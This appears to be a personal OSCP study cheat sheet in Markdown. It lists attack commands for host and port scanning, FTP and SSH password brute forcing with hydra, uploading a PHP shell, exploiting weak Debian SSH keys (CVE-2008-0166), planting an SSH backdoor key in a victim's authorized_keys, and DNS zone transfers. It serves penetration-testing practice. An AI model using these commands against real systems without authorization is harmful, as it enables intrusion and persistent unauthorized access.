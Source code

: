 ```yaml
---
layout: default
title : My OSCP cheat sheet
---
```


***
## Enumeration
***

```
nmap -sC -sV -o nmap -A -T5 <IP>
nmap -sC -vv -o nmap -T4 <IP>

Host Discovery
   •  nmap -sn 10.10.1.1-254 -vv -oA hosts
   •  netdiscover -r 10.10.10.0/24

DNS server discovery
   •  nmap -p 53 10.10.10.1-254 -vv -oA dcs
   
NSE Scripts Scan 
   * nmap -sV --script=vulscan/vulscan.nse (https://securitytrails.com/blog/nmap-vulnerability-scan)
   
Port specific NSE script list :

   ls /usr/share/nmap/scripts/ssh*
   ls /usr/share/nmap/scripts/smb*
   
```

***
## Scanning all ports
***

```
masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.x -e tun0 > ports
ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
nmap -Pn -sV -sC -p$ports 10.10.10.x

Running specific NSE scripts :
    nmap -Pn -sC -sV --script=vuln*.nse -p$ports 10.10.10.x -T4 -A
````
sC - default scripts, sV - scan for versions, oA- output all  formats
Optional - sT (performs full scan instead of syn-scan to prevent getting flagged by firewalls)
From Apache Version to finding Ubuntu version -> ubuntu httpd versions

***
## FTP: (port 21)
***
```
anonymous login check 
   -  ftp <ip address>
   -  username : anonymous
   -  pwd : anonymous
   -  file upload -> put shell.php
   -  file download -> get file
  
Bruteforce ftp
   
  hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt  ftp://<IP> -u -vV
``` 

***
## SSH: (port 22)
***
```
id_rsa.pub : Public key that can be used in authorized_keys for login
id_rsa : Private key that is used for login. Might ask for password. can be cracked with ssh2john and john
   -  id_rsa
   -  ssh -i id_rsa user@10.10.10.x
   -  For passwordless login, add id_rsa.pub to target's authorized_keys
   -  ssh2john

Bruteforce ssh

   hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://<IP> -u -vV
```

***
### CVE-2008-0166
***
```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

***
### SSH backdoor - post exploitation
***
```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

***
## DNS: (port 53)
***
```
If port 53 is open
dnsenum <DOMAIN>
dnsrecon -d <DOMAIN>
Add host to /etc/hosts
   -  dig axfr smasher.htb @10.10.10.135
   -  https://ghostphisher.github.io/smasher2
   -  Add the extracted domain to /etc/hosts and dig again
   
DNS brute force
dnsrecon -D subdomains-1000.txt -d <DOMAIN> -n <IP_DNS>
dnscan -d <domain> -r -w subdomains-1000.txt #Bruteforce subdomains in recursive way, <https://github.com/rbsec/dnscan>
